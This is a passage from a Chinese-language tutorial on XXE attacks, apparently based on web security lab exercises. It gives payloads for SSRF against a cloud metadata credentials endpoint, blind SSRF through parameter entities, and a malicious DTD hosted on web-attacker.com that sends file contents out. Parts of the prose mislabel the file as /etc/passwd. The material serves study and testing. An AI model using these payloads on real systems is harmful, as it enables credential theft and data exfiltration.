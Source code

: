通过 XXE 进行 SSRF 攻击，payload 如下：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### [Blind SSRF](#toc_blind-ssrf)

当外部实体不能使用时，也许可以试试 XML 参数实体，payload 如下：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

### [Blind SSRF 带出敏感数据](#toc_blind-ssrf_1)

在这种情况下，让服务器加载一个带有恶意负载的新 DTD，该恶意负载将通过 HTTP 请求发送文件的内容（对于多行文件，您可以尝试通过 ftp://对其进行过滤）。

恶意 DTD 拿到 /etc/hostname 文件内容的示例如下：

```bash
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

该 DTD 执行以下步骤：

-   定义一个名为 file 的 XML 参数实体，包含 /etc/passwd 文件的内容。
-   定义一个名为 eval 的 XML 参数实体，其中包含另一个 XML 参数实体 exfiltrate 的动态声明。通过向攻击者的 web 服务器发出包含 URL 查询字符串中“file”实体值的 HTTP 请求来操作 exfiltrate 实体。
-   使用 eval 实体，这将导致执行 exfilter 实体的动态声明。
-   使用 exfiltrate 实体，通过请求得到指定的 URL 的内容。

然后，攻击者必须在他们控制的系统上托管恶意 DTD，通常是将其加载到自己的 Web 服务器上。例如，攻击者可能通过以下 URL 为恶意 DTD 提供服务：[http://web-attacker.com/malicious.dtd](http://web-attacker.com/malicious.dtd)

最后，攻击者必须向易受攻击的应用程序提交以下 XXE 负载：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

这个 XXE 的 payload 声明了一个名为 XXE 的 XML 参数实体，然后在 DTD 中使用该实体。这将导致 XML 解析器从攻击者的服务器获取外部 DTD，并对其进行内联解释。然后执行恶意 DTD 中定义的步骤，并将/etc/passwd 文件传输到攻击者的服务器。

### [Error Based XXE(外部实体)](#toc_error-based-xxe)

这种情况出现于我们将使服务器加载一个恶意 DTD，该 DTD 将在错误消息中显示文件的内容（只有可以看到错误消息时，这才有效）。
